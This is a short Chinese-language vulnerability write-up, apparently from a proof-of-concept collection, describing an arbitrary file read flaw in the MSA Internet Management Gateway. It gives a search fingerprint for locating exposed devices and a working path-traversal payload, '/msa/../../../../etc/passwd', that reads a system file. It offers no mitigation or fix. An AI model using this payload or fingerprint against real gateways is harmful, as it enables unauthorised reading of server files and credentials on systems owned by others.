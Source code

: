 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>MSA 互联网管理网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"互联网管理网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628845284708-f3f1c3ed-387c-49d6-a817-c1a8264fda2e.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628845414925-23bff98f-8fb8-4fee-aee6-cd981973b368.png)



若有收获，就点个赞吧
